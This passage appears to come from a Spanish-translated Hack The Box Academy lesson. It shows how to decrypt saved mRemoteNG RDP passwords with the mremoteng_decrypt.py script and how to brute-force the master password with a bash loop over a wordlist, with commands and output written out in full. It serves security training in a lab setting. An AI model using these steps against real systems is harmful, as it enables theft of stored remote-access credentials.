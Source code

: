 Si intentamos descifrar el`Password`atributo desde el nodo`RDP_Domain`, recibiremos el siguiente error.

#### Intente descifrar la contraseña con una contraseña personalizada

  Expoliación

```shell-session
xnoxos@htb[/htb]$ python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA=="

Traceback (most recent call last):
  File "/home/plaintext/htb/academy/mremoteng_decrypt.py", line 49, in <module>
    main()
  File "/home/plaintext/htb/academy/mremoteng_decrypt.py", line 45, in main
    plaintext = cipher.decrypt_and_verify(ciphertext, tag)
  File "/usr/lib/python3/dist-packages/Cryptodome/Cipher/_mode_gcm.py", line 567, in decrypt_and_verify
    self.verify(received_mac_tag)
  File "/usr/lib/python3/dist-packages/Cryptodome/Cipher/_mode_gcm.py", line 508, in verify
    raise ValueError("MAC check failed")
ValueError: MAC check failed
```

Si usamos la contraseña personalizada, podemos descifrarla.

#### Descifrar la contraseña con mremoteng_decrypt y una contraseña personalizada

  Expoliación

```shell-session
xnoxos@htb[/htb]$ python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p admin

Password: ASDki230kasd09fk233aDA
```

En caso de que queramos intentar descifrar la contraseña, podemos modificar el script para probar múltiples contraseñas desde un archivo, o podemos crear una fiesta`for loop`. Podemos intentar descifrar el`Protected`atributo o el`Password`sí mismo. Si intentamos descifrar el`Protected`atributo Una vez que encontremos la contraseña correcta, el resultado será`Password: ThisIsProtected`. Si intentamos descifrar el`Password`directamente, el resultado será`Password: <PASSWORD>`.

#### Para que el bucle descifra la contraseña maestra con mremoteng_decrypt

  Expoliación

```shell-session
xnoxos@htb[/htb]$ for password in $(cat /usr/share/wordlists/fasttrack.txt);do echo $password; python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p $password 2>/dev/null;done    
                              
Spring2017
Spring2016
admin
Password: ASDki230kasd09fk233aDA
admin admin          
admins

<SNIP>
```

---